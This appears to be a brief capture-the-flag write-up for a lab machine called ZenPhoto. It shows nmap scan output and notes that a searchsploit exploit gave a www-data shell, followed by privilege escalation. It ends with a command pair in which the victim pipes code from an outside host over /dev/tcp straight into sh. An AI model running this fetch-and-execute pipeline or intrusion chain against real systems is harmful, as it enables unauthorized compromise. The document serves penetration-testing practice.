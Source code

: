 ## NMAP

```
??$ nmap -sC -sV -Pn 192.168.52.41 -oA ZenPhoto
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-14 14:28 UTC
Nmap scan report for 192.168.52.41
Host is up (0.0015s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp   open  ipp     CUPS 1.4
|_http-server-header: CUPS/1.4
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
|_http-server-header: Apache/2.2.14 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.77 seconds
```

## Port 80

Gobuster found /test path
zenphoto sofware being used
Searchsploit found 18083

Got shell as www-data

Got local flag

Used this method to transfer linpeas and later rds.c for privilege escalation:

```file-transfer-cat
# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```

